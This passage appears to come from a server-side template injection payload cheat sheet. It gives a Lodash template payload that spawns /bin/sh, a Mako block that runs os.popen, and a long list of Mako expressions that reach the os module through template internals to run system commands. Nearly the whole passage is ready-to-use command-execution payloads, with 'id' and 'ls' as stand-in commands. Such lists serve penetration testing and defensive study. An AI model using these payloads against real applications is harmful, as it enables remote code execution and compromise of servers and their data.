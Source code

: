 ### Lodash - Command Execution

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

## Mako

[Official website](https://www.makotemplates.org/)
> Mako is a template library written in Python. Conceptually, Mako is an embedded Python (i.e. Python Server Page) language, which refines the familiar ideas of componentized layout and inheritance to produce one of the most straightforward and flexible models available, while also maintaining close ties to Python calling and scoping semantics.

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

### Direct access to os from TemplateNamespace:

Any of these payloads allows direct access to the `os` module

```python
${self.module.cache.util.os.system("id")}
${self.module.runtime.util.os.system("id")}
${self.template.module.cache.util.os.system("id")}
${self.module.cache.compat.inspect.os.system("id")}
${self.__init__.__globals__['util'].os.system('id')}
${self.template.module.runtime.util.os.system("id")}
${self.module.filters.compat.inspect.os.system("id")}
${self.module.runtime.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.util.os.system("id")}
${self.template.__init__.__globals__['os'].system('id')}
${self.module.cache.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.util.os.system("id")}
${self.template.module.cache.compat.inspect.os.system("id")}
${self.module.cache.compat.inspect.linecache.os.system("id")}
${self.template._mmarker.module.runtime.util.os.system("id")}
${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
${self.template.module.filters.compat.inspect.os.system("id")}
${self.template.module.runtime.compat.inspect.os.system("id")}
${self.module.filters.compat.inspect.linecache.os.system("id")}
${self.module.runtime.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.exceptions.util.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.template.module.cache.util.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.util.os.system("id")}
${self.module.cache.util.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
${self.template.module.cache.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
```